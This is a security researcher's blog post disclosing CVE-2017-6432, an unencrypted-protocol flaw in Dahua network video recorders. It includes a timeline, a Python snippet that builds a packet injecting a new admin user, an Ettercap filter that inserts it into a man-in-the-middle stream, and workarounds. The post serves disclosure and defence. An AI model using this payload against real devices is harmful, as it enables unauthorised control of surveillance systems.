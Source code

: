 ```yaml
---
layout: post
title:  "Dahua NVR - Exploiting - CVE-2017-6432"
date:   2017-03-09 21:00:00 +1100
categories: exploit dahua
---
```


### Introduction

After discovering the Exposures identified [here](https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)
I decided to try to inject a new user into the system by modifying packets in the TCP Stream

#### Disclosure Timeline
- 2017-02-24: Vulnerability Discovered
- 2017-03-02: Proof of Concept Written
- 2017-03-02: Dahua Contacted with plan to disclose on March 9th unless they wished otherwise.
- 2017-03-07: Dahua Responded with timeline to fix CVE-2017-6341, CVE-2017-6342, CVE-2017-6343
- 2017-03-07: Requested response for this: CVE-2017-6432 again
- 2017-03-09: Full Disclosure

### The Hardware and Software

- NVR Model: DHI-HCVR7216A-S3
- NVR Firmware: 3.210.0001.10 build: 2016-6-6
- Camera Firmware: 2.400.0000.28.R build 2016-3-29
- SmartPSS Software (v 1.16.1 Build Date 2017-01-19)
- gDSS Software for Android

### The method

When the Dahua Software (Mobile Phone application, or Desktop application, as identified above) connects to the NVR, it creates a TCP Connection to Socket 37777.  
This TCP Connection must be authorised before the NVR will respond.  
Without a valid authrorisation sending any data to this port, will cause the NVR to close the connection.  

As there is no encryption, any data transmitted over this connection is exposed to being read via a Man in the Middle attack, as identified in my previous report [here](https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)

This in turn, makes this connection vulnerable to both packet manipulation and packet injection.

The Proof of Concept has been performed using Ettercap, an Ettercap Filter, and Ettercap to perform the Man in the Middle attack.  


### Proof of Concept


First, we need to generate the packet for a new user.
```python
newuser="null"
newpass="ku7"
content = "0:" + newuser + ":" + newpass + ":1:1::1"
length = chr(len(content))
payload = "\xa6\x00\x00\x00" + length + "\x00\x00\x00\x06" + "\x00"*23 + content
```
The :1:1::1 following the username and password is the groups and permissions, this is a basic account with admin rights, which can only modify configuration.  Whatever permissions and groups that are wanted, simply replace that.  
The 0: at the start is the user id.  A 0 causes the NVR to automatically assign the next free user ID to the new user.


![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.17.05 pm.png){:class="img-responsive"}


Now that we have our content, the following ettercap filter is used.
What the packtet is I am detecting doesn't matter, as I am actually going to tack my payload (which is normally a full packet) straight onto the end of the original packet, and it will work just fine!  

```
if (ip.proto == TCP && tcp.dst == 37777 && DATA.data + 0 == "\xa4" && DATA.data + 8 == "\x1a" ){
    msg("Found One");
    inject("/root/etter/newuser.packet");
    exit();
}
```
![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.05.25 pm.png){:class="img-responsive"}

Now, Load this up into ettercap, do our magic, and have a peek at what happens

I hear you... That packet will be the wrong size, checksum won't match, the world will fall over.
You should drop or replace contents.  

![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.25.37 pm.png){:class="img-responsive"}

Yes, I should have to do something better than this... but I don't!

![img]({{ site.github.url }}/images/Screen Shot 2017-03-09 at 10.27.29 pm.png){:class="img-responsive"}

Originally I did so this by replacing the packet contents, as well as other ways.  As long as you inject into the stream, it will work

![img]({{ site.github.url }}/images/Screen Shot 2017-03-02 at 12.51.14 am.png){:class="img-responsive"}


### Additional Notes

While this proof of concept is only for injecting a user, it could be used for much more.


### Workarounds

There are none, this is insecure by design.  
Until a proper encrypted protocol is used, these are vulnerable.  
If you intend to use any Dahua equipment on an untrusted network, they should be accessed only using an encrypted tunnel of some sort.  

### Vendor Response

Will update this when they do.
7 days was given for a response, while correspondance did occur, this exploit was not covered.  
Due to the logical step from the last exposures to this one, Full Disclosure is applied.

### Credits

Vulnerability discovered by Andrew Frahn (null_ku7)

### References

CVE-2017-6341, CVE-2017-6342, CVE-2017-6343: (https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html)[https://nullku7.github.io/stuff/exposure/dahua/2017/02/24/dahua-nvr.html]

